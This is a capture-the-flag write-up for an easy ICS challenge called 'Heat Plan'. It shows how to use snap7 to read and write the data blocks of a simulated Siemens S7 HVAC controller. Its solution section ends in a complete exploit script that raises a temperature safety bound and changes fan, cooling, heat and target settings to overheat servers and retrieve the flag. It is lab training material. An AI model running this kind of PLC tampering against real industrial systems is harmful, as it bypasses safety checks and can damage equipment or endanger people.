






 <font size='10'>Heat Plan</font>

09<sup>th</sup> April 2025

Prepared By: `r3dsh3rl0ck`

Challenge Author(s): `r3dsh3rl0ck`

Difficulty: <font color='green'>Easy</font>

<br><br><br><br><br><br>

# Synopsis (!)

- Understanding S7 read/write operations
- Manipulating PLC data blocks
- Bypassing temperature bounds checks

## Description (!)

- Task Force Phoenix has infiltrated Volnaya’s server room, targeting their VHX-3000 HVAC system—a Siemens S7-based PLC controlling temperature, airflow, and cooling, there are `5` databases that holds the data.The sizes of the DBs are estimated to be `50` or `100` bytes. Your mission: sabotage the system to overheat the servers, triggering the start of the blackout. For our plan to succeed, we need to fulfill the following requirements:

    - Set the fan speed to 99%.
    - Reduce cooling to 10%.
    - Turn the heat on.
    - Set the target temperature to 50°C.


## Skills Required (!)

- Basic knowledge of S7 read/write operations
- Familiarity with Python and snap7 library
- Understanding of PLC data block manipulations

## Skills Learned (!)

- How to interact with S7 PLCs over TCP
- Bypassing PLC safety checks
- Crafting precise write operations for industrial systems

# Solution (!)

## Connecting to the VHX-3000

We’re tasked with sabotaging the VHX-3000 HVAC system, a Siemens S7 PLC running on an HVAC server. The S7 protocol allows us to read and write to data blocks (DBs) over TCP. The description mentions five DBs. Let’s start by connecting and exploring the DBs using the snap7 Python library.

When we connect to the server, we can observe that the HVAC system is online. We can see this in real time because it updates the status every 3 seconds.



### Initial read command

We craft a simple client to connect to the PLC and read the initial states of DB1 through DB5. Each DB has a fixed size of 50 or 100 bytes, so we’ll read the full size to map the layout. Let's assume the DBs have are 50 bytes long. Below is the `read` function and the result.

```python
def read(db_num, offset, size):

    try:

        data = client.db_read(db_num, offset, size)

        text = data.decode('utf-8', errors='ignore').rstrip('\x00')

        print(f"DB{db_num} [offset {offset}, size {size}]: {text}")

        return text

    except Exception as e:

        print(f"Error reading DB{db_num}: {e}")

        return None


read(1, 0, 50)  # DB1
read(2, 0, 50)  # DB2
read(3, 0, 50)  # DB3
read(4, 0, 50)  # DB4
read(5, 0, 50)  # DB5
```

From the result we can observer all the data those 5 DBs are holding.



`Our goal is to set FAN:99%, COOL:10%, HEAT:ON, and TARGET-TEMP:50C.`

## Write Attempt

Let’s try writing `TARGET-TEMP:50C` first, assuming it’s at offset 0 in DB1.

```python
def write(db_num, offset, value):

    value_bytes = value.encode('utf-8')

    max_size = 50 - offset

    if len(value_bytes) > max_size:

        print(f"Warning: Value '{value}' truncated to {max_size} bytes")

        value_bytes = value_bytes[:max_size]

    

    try:

        client.db_write(db_num, offset, value_bytes)

        print(f"Wrote '{value}' to DB{db_num} at offset {offset}")

    except Exception as e:

        print(f"Error writing to DB{db_num}: {e}")


# main.....
write(1, 0, "TARGET-TEMP:50C")
```
The server rejects the write because `TARGET-TEMP:50C` exceeds `MAX:30C`



If we read the logs from DB4 we can observe that a `DB BROKEN` error occured.

```python
read(4, 0, 50)

DB4 [offset 0, size 50]: STATE:RUNNING ERR:0 LOG:DB BROKEN
```
.

### Testing Unauthorized Writes

Let’s test by modifying SETPOINT in DB1, which isn’t part of our required changes.

```python
write(1, 16, "SETPOINT:23C")
```
As expected, altering a locked field like `SETPOINT` triggers DB BROKEN.



## Mapping Offsets

To proceed, we need precise offsets for each value. From the bound check we can assume that the target temprature can't be larger than the MAX temp so we should modify this field first.

- MAX:30C (29-35, 7 bytes)
- TARGET-TEMP:20C (0-14, 15 bytes)
- DB2: FAN:50% (0-6, 7 bytes).
- DB3: COOL:75% (8-15, 8 bytes).
- DB5: HEAT:OFF (0-7, 8 bytes).

We can automate the process by writing an exploit script as shown below.

```python
print("\nExecuting overheat sequence:")

    write(1, 29, "MAX:65")       

    time.sleep(1)                 

    write(2, 0, "FAN:99%")      

    time.sleep(1)

    write(3, 8, "COOL:10%")       

    time.sleep(1)

    write(5, 0, "HEAT:ON ")      

    time.sleep(1)

    write(1, 0, "TARGET-TEMP:50C")              

    time.sleep(5)
```

The server confirms the overheat condition is met, and the logs are updated.



The server now inform us that an overheat is detected and we should check the logs for more details which are located in the 4th DB.



By again reading all the DBs for ease we can find the flag :).

```python
    print("\nReading states:")

    read(1, 0, size)  # DB1 full

    read(2, 0, size)  # DB2 full

    read(3, 0, size)  # DB3 full

    read(4, 0, 100)  # DB4 full FLAG :)

    read(5, 0, size)  # DB5 full
```

## Final Exploit

Here’s the full exploit script that ties it all together:

```python
import snap7

import time


def read(db_num, offset, size):

    try:

        data = client.db_read(db_num, offset, size)

        text = data.decode('utf-8', errors='ignore').rstrip('\x00')

        print(f"DB{db_num} [offset {offset}, size {size}]: {text}")

        return text

    except Exception as e:

        print(f"Error reading DB{db_num}: {e}")

        return None


def write(db_num, offset, value):

    value_bytes = value.encode('utf-8')

    max_size = 50 - offset

    if len(value_bytes) > max_size:

        print(f"Warning: Value '{value}' truncated to {max_size} bytes")

        value_bytes = value_bytes[:max_size]

    

    try:

        client.db_write(db_num, offset, value_bytes)

        print(f"Wrote '{value}' to DB{db_num} at offset {offset}")

    except Exception as e:

        print(f"Error writing to DB{db_num}: {e}")


# Connect to VHX-3000 server

client = snap7.client.Client()

try:

    client.connect("192.168.1.64", 0, 1, 1338) # IP of the server and port

    if not client.get_connected():

        print("Connection to VHX-3000 failed")

        exit(1)

    print("Connected to VHX-3000 HVAC Server.")

except Exception as e:

    print(f"Connection error: {e}")

    exit(1)

# Exploit sequence

def exploit():

    print("\n=== Exploiting VHX-3000 HVAC System ===")

    size = 50

    print("\nReading initial states:")

    read(1, 0, size)  

    read(2, 0, size)  

    read(3, 0, size)  

    read(4, 0, size)  

    read(5, 0, size)  

    # Step 2: Execute writes in order

    print("\nExecuting overheat sequence:")

    write(1, 29, "MAX:65")       

    time.sleep(1)                 

    write(2, 0, "FAN:99%")      

    time.sleep(1)

    write(3, 8, "COOL:10%")       

    time.sleep(1)

    write(5, 0, "HEAT:ON ")      

    time.sleep(1)

    write(1, 0, "TARGET-TEMP:50C")              

    time.sleep(5)

    print("\nReading states:")

    read(1, 0, size)  # DB1 full

    read(2, 0, size)  # DB2 full

    read(3, 0, size)  # DB3 full

    read(4, 0, 100)  # DB4 full FLAG :)

    read(5, 0, size)  # DB5 full

if __name__ == "__main__":

    exploit()
```
